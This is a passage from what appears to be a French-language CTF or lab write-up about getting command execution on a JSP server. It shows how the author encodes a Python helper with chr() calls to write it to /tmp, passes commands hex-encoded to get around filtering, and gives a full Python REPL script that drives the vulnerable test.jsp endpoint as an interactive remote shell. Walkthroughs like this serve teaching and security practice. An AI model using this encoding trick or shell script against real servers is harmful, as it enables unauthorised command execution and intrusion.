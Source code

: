 Si je peux uploader *pyexec.py* sur le serveur je le converti avec *write\_to\_file.py* :  

```plain
python write_to_file.py pyexec.py /tmp/pyexec.py
```

Ce qui donne un output de ce style :  

```python
open(chr(47)+chr(116)+chr(109)+...+chr(121),chr(119)).write(chr(102)+chr(114)+...+chr(10))
```

Il suffit d'appeler *python3 -c* suivi de la chaîne obtenue dans le script JSP et voilà !  

Maintenant je peux passer des commandes avec autant de redirections, pipe et compagnie que je le souhaite, il suffit de les passer hex-encodés à pyexec :  

```plain
python3 /tmp/pyexec.py 6c73202d6c
```

[C’est ça, la puissance intellectuelle. Bac + 2, les enfants.](https://www.youtube.com/watch?v=zNjmnd9rYjI)
-----------------------------------------------------------------------------------------------------------

Le dernier script pour clôturer tout ça c'est comme souvent un [REPL](https://en.wikipedia.org/wiki/Read%E2%80%93eval%E2%80%93print_loop) qui permet d'avoir un semblant d’interactivité avec le serveur :  

```python
import sys
from urllib.parse import quote
from binascii import hexlify

import requests
from bs4 import BeautifulSoup

URL = "http://192.168.1.10:8080/test.jsp?path=python3+/tmp/pyexec.py+{}"

while True:
    try:
        cmd = input("$ ").strip()
    except EOFError:
        break

    if cmd.lower() in ("quit", "exit"):
        break

    url = URL.format(hexlify(cmd.encode()).decode())
    response = requests.get(url)
    soup = BeautifulSoup(response.text, "lxml")
    infos = []
    for i, row in enumerate(soup.select_one("table:nth-of-type(2)").find_all("tr")):
        if i == 0:
            continue

        for j, column in enumerate(row.find_all("td")):
            if j == 3:
                print(column.text.strip())
```
